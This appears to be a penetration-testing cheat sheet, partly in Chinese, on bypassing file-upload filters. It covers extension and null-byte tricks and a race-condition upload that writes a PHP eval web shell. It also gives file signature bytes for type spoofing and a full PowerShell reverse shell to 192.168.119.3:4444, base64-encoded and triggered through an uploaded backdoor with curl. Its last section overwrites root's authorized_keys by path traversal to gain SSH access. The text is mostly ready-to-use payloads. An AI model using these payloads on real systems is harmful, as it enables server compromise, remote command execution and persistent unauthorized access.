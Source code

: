 ### File Extensions
```
.phps or .php7
From .php to .pHP
```
### 截断
```
filename.php%00.pdf
```
### 条件竞争绕过
服务器对文件进行检测，如果不符合则删除文件，这其中需要一些时间，我们可以利用这个时间差进行上传木马，要求服务器接收到文件不会重命名。
我们将上传的文件写为：
```
<?php fputs(fopen('shell.php','w'),'<?php eval($_GET[cmd])?>');?>
```
### 文件类型特征码（Convert to ascii in burp）
Put the corresponding file signature code in front of the file content in burp 
```
JPEG (jpg)，文件头：FFD8FF
PNG (png)，文件头：89504E47
GIF (gif)，文件头：47494638
TIFF (tif)，文件头：49492A00
Windows Bitmap (bmp)，文件头：424D
CAD (dwg)，文件头：41433130
Adobe Photoshop (psd)，文件头：38425053
Rich Text Format (rtf)，文件头：7B5C727466
XML (xml)，文件头：3C3F786D6C
HTML (html)，文件头：68746D6C3E
Email [thorough only] (eml)，文件头：44656C69766572792D646174653A
Outlook Express (dbx)，文件头：CFAD12FEC5FD746F
Outlook (pst)，文件头：2142444E
MS Word/Excel (xls.or.doc)，文件头：D0CF11E0
MS Access (mdb)，文件头：5374616E64617264204A
WordPerfect (wpd)，文件头：FF575043
Postscript (eps.or.ps)，文件头：252150532D41646F6265
Adobe Acrobat (pdf)，文件头：255044462D312E
Quicken (qdf)，文件头：AC9EBD8F
Windows Password (pwl)，文件头：E3828596
ZIP Archive (zip)，文件头：504B0304
RAR Archive (rar)，文件头：52617221
Wave (wav)，文件头：57415645
AVI (avi)，文件头：41564920
Real Audio (ram)，文件头：2E7261FD
Real Media (rm)，文件头：2E524D46
MPEG (mpg)，文件头：000001BA
MPEG (mpg)，文件头：000001B3
Quicktime (mov)，文件头：6D6F6F76
Windows Media (asf)，文件头：3026B2758E66CF11
MIDI (mid)，文件头：4D546864
```
### Powershell reverse shell
```
kali: pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText

curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20(replaced by $EncodedText)
```

### If can't execute uploaded file, try overwriting file
```
ssh-keygen
filename: fileup
cat fileup > authorized_keys
upload ../../../../../../../root/.ssh/authorized_keys
rm ~/.ssh/known_hosts
ssh -p 2222 -i privatekey root@mountaindesserts.com
```
